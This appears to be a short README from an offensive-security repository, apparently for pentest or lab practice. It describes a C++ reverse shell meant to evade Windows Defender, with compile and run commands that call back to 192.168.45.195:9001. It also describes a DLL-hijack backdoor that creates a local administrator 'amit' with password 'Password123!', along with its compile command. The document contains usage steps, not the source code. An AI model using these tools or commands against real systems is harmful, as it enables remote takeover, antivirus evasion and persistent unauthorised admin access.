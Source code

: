 ### revshell.cpp
Simple C++ reverse shell, can be used to bypass Windows Defender if we want to get a simple reverse shell from the target.
- Compile in linux with: `x86_64-w64-mingw32-g++ -o reverse_shell.exe reverse_shell.cpp -lws2_32 -static-libgcc -static-libstdc++`
- Execute: `rev.exe 192.168.45.195 9001`

### newadmin.cpp
Source: https://github.com/gustanini/DLL-Hijack-POC/tree/main 

DLL that will create a new local admin with the username `amit` and the password `Password123!`. 
- Compile in linux with: `x86_64-w64-mingw32-gcc -shared -o backdoor.dll newadmin.cpp` 
